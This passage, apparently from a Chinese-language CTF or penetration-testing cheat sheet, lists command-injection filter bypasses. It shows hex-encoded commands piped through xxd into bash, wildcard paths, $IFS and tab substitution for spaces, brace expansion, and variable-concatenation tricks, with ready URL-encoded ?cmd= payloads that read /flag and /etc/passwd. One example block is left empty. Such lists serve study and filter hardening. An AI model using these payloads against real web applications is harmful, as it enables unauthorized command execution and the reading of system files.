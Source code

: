 * **十六进制绕过:** 将命令字符串编码为十六进制，并将其通过管道传递给 `xxd -r -p`（反向十六进制转储），然后再传递给 `bash`。
    ```bash
    # cat /flag = 636174202f666c6167
    echo -n 636174202f666c6167 | xxd -r -p | bash
    ```

* **二进制绕过 (Bash):** 使用 `$((2#binary))` 进行二进制表示。
    ```bash
    # 示例 (对于完整命令不太常见，对数字/字符有用)
    ```
    * **Shell 算术:** 使用 Shell 算术构造数字。
        * `$(())` -> `0`
        * `$((~$(())))` -> `-1` (0 的按位取反)
        * `$(($((~$(())))$((~$(())))))` -> `-1-1` -> `-2` (这里的连接意味着操作，取决于上下文)
    * **`${##}`:** 如果没有设置位置参数，可以代表 `0`。

* **通配符绕过 (命令执行):** 使用通配符匹配 `/bin` 或 `/usr/bin` 等目录中的命令名称。
    ```bash
    # 在 /bin/ 中使用通配符匹配 'cat'
    /???/c?t /etc/passwd
    /b??/c?t /etc/passwd
    ```

---

## Level 4 - 空格过滤 & 赋值拼接绕过

规避阻止空格字符的过滤器的技术。

* **Tab 字符:** 使用水平制表符的 URL 编码形式 (`%09`)。
    `?cmd=ls%09-la`

* **`$IFS` 变量:** Shell 中的内部字段分隔符变量默认为空格、制表符和换行符。你可以用它代替字面上的空格。
    `cat$IFS/etc/passwd`
    `cat$IFS$9/etc/passwd` (`$9` 通常为空，实际上只使用了 `$IFS`)

* **重定向:** 如果你可以控制文件的内容或名称，可以使用输入重定向。
    `?cmd=cat</fl""ag` (从名为 `flag` 的文件中读取，空引号 `""` 防止路径名扩展问题)

* **花括号扩展:** 在花括号内使用逗号（不需要空格）。
    `{cat,/etc/passwd}` (在某些上下文中可能会执行 `cat /etc/passwd`)

* **空格的十六进制编码:** 在某些上下文中的字符串内使用 `\x20`。
    `X=$'cat\x20/flag'&&$X` (将命令赋值给 X，然后执行 X)

* **赋值 & 拼接:** 将命令和文件名分成几部分，将它们赋值给变量，然后连接它们。
    * 命令: `a=c;b=at;c=/fl;d=ag;$a$b$c$d`
    * URL 编码的 Payload: `?cmd=a%3Dc%3Bb%3Dat%3Bc%3D%2Ffl%3Bd%3Dag%3B%24a%24b%24c%24d`

---
